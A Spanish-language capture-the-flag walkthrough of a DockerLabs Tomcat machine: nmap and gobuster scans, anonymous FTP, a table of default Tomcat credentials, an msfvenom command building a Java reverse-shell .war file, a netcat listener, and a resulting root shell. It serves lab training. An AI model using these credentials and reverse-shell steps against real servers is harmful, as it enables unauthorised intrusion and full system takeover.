 #-Pn DockerLabs - 14/05/2024

#web - https://dockerlabs.es/#/

Realizamos un escaneo con nmap:

```shell
└─$ nmap -sVC -p- -n --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 00:13 CEST
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 00:13 (0:00:06 remaining)
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 100.00% done; ETC: 00:13 (0:00:00 remaining)
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 95.79% done; ETC: 00:13 (0:00:00 remaining)
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.30% done; ETC: 00:13 (0:00:00 remaining)
Nmap scan report for 172.17.0.2
Host is up (0.00015s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
8080/tcp open  http    Apache Tomcat 9.0.88
|_http-title: Apache Tomcat/9.0.88
|_http-favicon: Apache Tomcat
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.43 seconds
```

Vemos que podemos acceder al servidor ftp sin contraseña.
Entramos y encontramos un fichero ".txt":

```shell
└─$ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

```shell
ftp> get tomcat.txt
local: tomcat.txt remote: tomcat.txt
229 Entering Extended Passive Mode (|||11583|)
150 Opening BINARY mode data connection for tomcat.txt (74 bytes).
100% |*|    74        1.10 MiB/s    00:00 ETA
226 Transfer complete.
74 bytes received in 00:00 (169.24 KiB/s)
```


```shell
└─$ cat tomcat.txt 
Hello tomcat, can you configure the tomcat server? I lost the password...

```

Bueno... nada interesante seguimos, antes de entrar a la página web haremos un escaneo de subdominios con gobuster:

```shell
└─$ gobuster dir -u "http://172.17.0.2:8080/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/http%3A%2F%2Fwww     (Status: 400) [Size: 841]
/http%3A%2F%2Fyoutube (Status: 400) [Size: 841]
/http%3A%2F%2Fblogs   (Status: 400) [Size: 841]
/http%3A%2F%2Fblog    (Status: 400) [Size: 841]
/**http%3A%2F%2Fwww   (Status: 400) [Size: 841]
/External%5CX-News    (Status: 400) [Size: 795]
/http%3A%2F%2Fcommunity (Status: 400) [Size: 841]
/http%3A%2F%2Fradar   (Status: 400) [Size: 841]
/http%3A%2F%2Fjeremiahgrossman (Status: 400) [Size: 841]
/http%3A%2F%2Fweblog  (Status: 400) [Size: 841]
/http%3A%2F%2Fswik    (Status: 400) [Size: 841]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

Tampoco nada interesante... Probaremos a entrar en la pagina web..
Entrando en "http://172.17.0.2:8080/" encontramos una pagina de Apache Tomcat version 9.0.88.
Si nos fijamos bien podemos encontrar un panel de login:


![Captura de pantalla 2024-05-15 005242](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/45b0b2bf-4bd1-4a4f-988c-6191a990fc90)
![Captura de pantalla 2024-05-15 010522](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/dafa213a-5a85-4fb5-920a-e7e2e5426951)


# Apache Tomcat Default Credentials

|Username     |Password  |
|-------------|----------|
|admin        |password  |
|admin        |<blank>   |
|admin        |Password1 |
|admin        |password1 |
|admin        |admin     |
|admin        |tomcat    |
|both         |tomcat    |
|manager      |manager   |
|role1        |role1     |
|role1        |tomcat    |
|role         |changethis|
|root         |Password1 |
|root         |changethis|
|root         |password  |
|root         |password1 |
|root         |r00t      |
|root         |root      |
|root         |toor      |
|tomcat       |tomcat    |
|tomcat       |s3cret    |
|tomcat       |password1 |
|tomcat       |password  |
|tomcat       |<blank>   |
|tomcat       |admin     |
|tomcat       |changethis|

Entramos y encontramos un apartado donde podemos subir archivos ".war".
Entramos a "https://revshells.com/" y buscamos la opcion de archivo .war con msfvenom:

```shell
msfvenom -p java/shell_reverse_tcp LHOST=127.17.0.2 LPORT=9001 -f war -o shell.war
```

![Captura de pantalla 2024-05-15 005818](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/8ac19833-b7f8-4ef5-bf61-4fbb78176212)

Abrimos un puerto de escucha con netcat:

```shell
nc -lvnp 9001
```

Lo subimos y lo llamamos:

![Captura de pantalla 2024-05-15 010324](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/a2b89848-d5b9-4110-b001-cf057ac5a903)
![Captura de pantalla 2024-05-15 010345](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/13592867-97e0-44cb-b8f1-11548b626743)


Y ahora tenemos control y con todos los permisos:

```shell
#whoami
root
```
